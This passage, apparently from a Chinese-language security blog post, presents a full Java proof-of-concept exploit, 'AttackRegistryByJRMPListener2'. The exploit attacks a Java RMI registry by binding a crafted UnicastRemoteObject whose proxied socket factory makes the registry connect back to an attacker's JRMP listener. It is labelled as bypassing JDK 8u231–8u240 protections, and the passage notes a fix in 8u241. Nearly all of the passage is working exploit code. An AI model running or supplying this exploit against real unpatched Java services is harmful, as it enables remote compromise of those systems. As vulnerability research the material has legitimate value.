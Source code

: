```java
        final ObjectOutputStream objOut = new myMarshalOutputStream(dos);
```
最终 poc 如下：
```java
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import xyz.eki.marshalexp.rmi.utils.ReflectUtils;
import xyz.eki.marshalexp.rmi.utils.RemoteUtils;

import javax.management.remote.rmi.RMIConnectionImpl_Stub;
import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.server.ObjID;
import java.rmi.server.RMIServerSocketFactory;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.rmi.server.UnicastRemoteObject;
import java.util.Random;

/*
Bypass 8u231~8u240
 */
public class AttackRegistryByJRMPListener2 {
    public static void main(String[] args) {
        try {
            String registryHost = "127.0.0.1";
            int registryPort = 1099;
            String JRMPHost = "127.0.0.1";
            int JRMPPort = 12345;

            TCPEndpoint te = new TCPEndpoint(JRMPHost, JRMPPort);
            ObjID id = new ObjID(new Random().nextInt());
            UnicastRef refObject = new UnicastRef(new LiveRef(id, te, false));

            RemoteObjectInvocationHandler myInvocationHandler = new RemoteObjectInvocationHandler(refObject);
            RMIServerSocketFactory handcraftedSSF = (RMIServerSocketFactory) Proxy.newProxyInstance(
                    RMIServerSocketFactory.class.getClassLoader(),
                    new Class[] { RMIServerSocketFactory.class, java.rmi.Remote.class },
                    myInvocationHandler);


            Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null);
            constructor.setAccessible(true);
            UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);

            ReflectUtils.setFieldValue(remoteObject, "ssf", handcraftedSSF);

            //Bind(null, remoteObject)
//             attack registry
            RemoteUtils.sendRawCall(registryHost,registryPort,new ObjID(0),0,4905912898345647071L, null,remoteObject);
            System.out.println("Payload sent");

        }catch (Throwable t){
            t.printStackTrace();
        }
    }
}
```
该问题在 jdk 8u241 中进行了修复。
